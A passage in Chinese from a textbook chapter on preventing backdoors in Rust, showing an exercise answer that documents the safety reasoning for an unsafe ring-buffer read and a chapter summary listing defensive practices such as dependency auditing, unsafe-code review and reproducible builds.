    }
}
```

<details>
<summary>查看答案</summary>

```rust
// SAFETY:
// 1. self.buffer在构造函数中通过alloc分配，始终指向有效内存，
//    capacity > 0（构造函数中断言）
// 2. idx = read & (capacity - 1)，因为capacity是2的幂，
//    idx必然在[0, capacity)范围内
// 3. read != write（已在前面的if中检查），说明至少在(read, write)区间内
//    有至少一个有效元素。read位置的值已被完全写入（Acquire ordering
//    确保write的Release同步），读取是安全的
// 4. 所有权转移：read()执行后，原位置的值被移动到value，
//    RingBuffer不再拥有该值。后续对该索引的写入不会导致double-free，
//    因为原值已转移出
let value = unsafe { self.buffer.add(idx).read() };
```
</details>

---

## 本章小结

后门防范是企业安全工程的终极挑战之一。Rust的内存安全保证消除了约70%的经典后门向量——缓冲区溢出、Use-After-Free、格式字符串攻击不再可行。这不仅是理论上消除了漏洞类，更在实践中减少了代码审查者需要关注的维度。

然而，Rust并非万能。源码级的恶意逻辑、供应链污染、编译器后门仍在Rust的能力范围之外。防御这些需要多层次的安全实践：代码审查自动化（clippy安全lint）、依赖审计（cargo-vet/audit）、unsafe代码特别审查、可重现构建和运行时保护（ASLR/CFI）。

本章建立的"无后门保证"检查清单涵盖了编译时、依赖、运行时和流程四个维度。企业应将其作为安全基线，在每次发布前验证。记住Thompson的教训：后门可以隐藏在任何层次——我们能做的不是保证绝对安全，而是使攻击成本高到攻击者认为不值得尝试。

继续阅读：[[05-网络安全：零信任架构]]，学习如何在网络层建立纵深防御。
